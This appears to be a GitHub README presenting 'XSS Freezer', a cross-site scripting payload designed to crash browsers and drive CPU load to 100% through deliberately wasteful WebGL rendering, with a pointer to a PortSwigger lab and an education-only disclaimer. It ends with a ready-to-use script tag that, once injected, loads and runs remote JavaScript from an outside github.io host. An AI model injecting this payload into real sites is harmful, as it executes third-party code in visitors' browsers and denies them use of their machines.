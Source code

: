 XSS Freezer is an XSS vulnerability payload that crashes the browser and warms up the CPU due to a 100% load. CPU load is achieved due to WebGL 2.0 with extreme settings, complex shaders, mass particle rendering, interactivity, and negative code optimization (i.e. not for the benefit but for the detriment of the user).

For the test, you can run the laboratory in https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.

⚠️ Important: This payload is intended solely for educational purposes and testing on protected systems. Use in real attacks violates laws and ethical standards. The author of the repository is not responsible for the use of this payload by third parties.

https://github.com/user-attachments/assets/e35d05a5-1d54-42a2-89e8-511a6380acd5

------------------------------------------

```<script>var c=document.createElement('canvas');c.id='cpuCanvas';document.body.appendChild(c);var r=document.createElement('script');r.src='//0-dayff13r.github.io/Freezer-XSS/freezer.js';document.body.appendChild(r);</script>```
